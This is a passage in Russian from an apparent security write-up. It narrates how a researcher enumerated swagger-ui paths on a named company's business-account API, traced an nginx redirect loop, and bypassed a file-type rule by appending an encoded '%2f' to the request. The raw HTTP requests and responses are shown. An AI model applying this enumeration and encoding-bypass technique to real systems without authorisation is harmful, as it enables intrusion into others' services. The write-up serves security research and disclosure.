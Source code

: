 ```
HTTP/1.1 500 Internal Server Error
Content-type: application/json

{
  "timestamp": "2024-04-12T08:57:14.384+00:00",
  "status": 500,
  "error": "Internal Server Error",
  "path": "/services/profile/validate/v1/email"
}
```

Затем зная как устроены проекты на `spring`, он начал искать документацию по известным маршрутам:

```
❌ GET /api/cbma/userauthorization/services/profile/validate/v1/email/swagger-ui/index.html
❌ GET /api/cbma/userauthorization/services/profile/validate/v1/swagger-ui/index.html
❌ GET /api/cbma/userauthorization/services/profile/validate/swagger-ui/index.html
❌ GET /api/cbma/userauthorization/services/profile/swagger-ui/index.html
❌ GET /api/cbma/userauthorization/services/swagger-ui/index.html
✅ GET /api/cbma/userauthorization/swagger-ui/index.html
```

В итоге получилось получить страницу `index.html` для `swagger-ui` (страница на которой находятся все маршруты API и позволяющая в браузере их вызывать). Он попробовал загрузить страницу в браузере но она так и не загрузилась. Он проверил трафик и увидел следующее: 

```
GET /api/cbma/ticket/services/swagger-ui/swagger-initializer.js HTTP/1.1
Location: /cbma/api/cbma/userauthorization/services/swagger-ui/swagger-initializer.js
...
GET /cbma/api/cbma/ticket/services/swagger-ui/swagger-initializer.js HTTP/1.1
Location: /cbma/cbma/api/cbma/userauthorization/services/swagger-ui/swagger-initializer.js
```
Произошёл бесконечный цикл редеректов. Из-за этого он слелал предположение, что в `nginx` выставлено правило на тип файлов, приводящее к тому, что на запрос отвечает не сервер за `nginx`, а сам сервер с `nginx`. Отправив такой же запрос, но заменив `.js` на `.anythongElse` он получил ответ, подтвердив догадку: 

```
HTTP/1.1 500 Internal Server Error
Server: nginx
```

Теперь надо как-то обойти правило на формат файла в nginx, при этом не поломав запрос на сервере за nginx. Для этого Сем забрутфорсил добавление в конец запроса символов от `%00` до `%FF`. В таком виде можно кодировать любые символы в ссылке, включая зарезервированнные в синтаксисе. В итогу на символе `%2f`(кодирует `/`) произошёл успех:

```
GET /api/cbma/userauthorization/services/swagger-ui/swagger-initializer.js%2f HTTP/1.1
Host: myaccount-business.cox.com

HTTP/2 200 OK
Content-Type: application/javascript

window.onload = function() { window.ui = SwaggerUIBundle({ url: "https://petstore.swagger.io/v2/swagger.json", dom_id: '#swagger-ui', deepLinking: true, presets: [ SwaggerUIBundle.presets.apis, SwaggerUIStandalonePreset ], plugins: [ SwaggerUIBundle.plugins.DownloadUrl ], layout: "StandaloneLayout" , "configUrl" : "/services/v3/api-docs/swagger-config", "validatorUrl" : "" }); //</editor-fold> };

```
